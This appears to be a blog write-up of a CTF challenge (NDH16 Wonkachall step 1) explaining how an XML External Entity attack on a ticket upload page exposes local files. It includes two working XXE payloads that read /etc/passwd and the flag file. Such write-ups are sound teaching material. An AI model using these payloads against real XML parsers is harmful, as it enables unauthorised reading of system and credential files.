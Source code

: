 ```yaml
---
layout: post
title:  "XML External Entities: Wonkachall-step1 - NDH16"
date:   2018-07-03 22:00:00 +0200
comments: true
author: BoiteAKlou
categories:
- "Web"
---
```


This challenge covers one of the most efficient and popular attack against web servers. It is also the first of a series of 6 challenges from the NDH16 public CTF.

 <!--excerpt-->

# Table of Contents
{:.no_toc}

* TOC
{:toc}

## Challenge description

We have [a website](http://willywonka.shop:4242/) which is actually The Golden Ticket Blackmarket platform. It proposes a list of purchasable golden tickets where each ticket has a bitcoin cost, a name and an address.

![Wonka Shop screen capture]({{ "/assets/2018-07-03/tickets.png" | absolute_url }} "Willy Wonka Shop")

The challenge statement says that the flag is stored in ""/flags.txt". The objective is to take control of this website. Hurry up!

## Take my Golden Ticket!

The first reflex to have when you arrive on a website should be to hit "CTRL+U" and dive deep into the source code.
The vast majority of this website is static at the exception of the "/upload.php" page. We are able to upload a zip archive containing a **MANIFEST.xml** and a **Ticket** as shown in the provided example.

![Upload page screen capture]({{ "/assets/2018-07-03/upload.png" | absolute_url }} "Upload page"){:width="80%"}

The **Ticket file** contains a string representing the content of the Golden Ticket and the **MANIFEST.xml** stores the three variables displayed on the home page for each ticket, as shown below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<entreprise>xxx</entreprise>
	<prixBTC>xxx BTC</prixBTC>
	<adresseBTC>xxx</adresseBTC>
</root>
```

Wait a second... it means that the server is parsing XML files in order to get these values... Very interesting! :smiling_imp:

Have you ever heard of XML external entities?

## That's not a Ticket

XML External Entity Processing attack aim at exploiting **weakly configured XML parsers**. The objective is to reference external entities inside the XML document in order to **access local resources** or to **execute code remotely**.

Alright, now let's modify our MANIFEST.xml to detect if the website is vulnerable. I suggest the following payload, supposed to include "/etc/passwd" and to display it in place of the ticket's address:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
	<entreprise>xxx</entreprise>
	<prixBTC>xxx BTC</prixBTC>
	<adresseBTC>&xxe;</adresseBTC>
</root>
```

Then we zip the MANIFEST and the Ticket, we upload it and... :tada:

![XXE disclosure]({{ "/assets/2018-07-03/etcpasswd.png" | absolute_url }} "/etc/passwd"){:width="80%"}

Say Hello to the list of users!

Fine, now we can forge the payload that will allow us to retrieve the flag located under "/flag.txt". This is basically the same payload as before in which we replace the target file as follows:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<root>
	<entreprise>xxx</entreprise>
	<prixBTC>xxx BTC</prixBTC>
	<adresseBTC>&xxe;</adresseBTC>
</root>
```

And here comes the reward! :triangular_flag_on_post:

![XXE disclosure]({{ "/assets/2018-07-03/flag.png" | absolute_url }} "Flag"){:width="80%"}

You can now read the writeup of Wonkachall-step2 :wink:



<p id="signature">BoiteAKlou :hammer:</p>

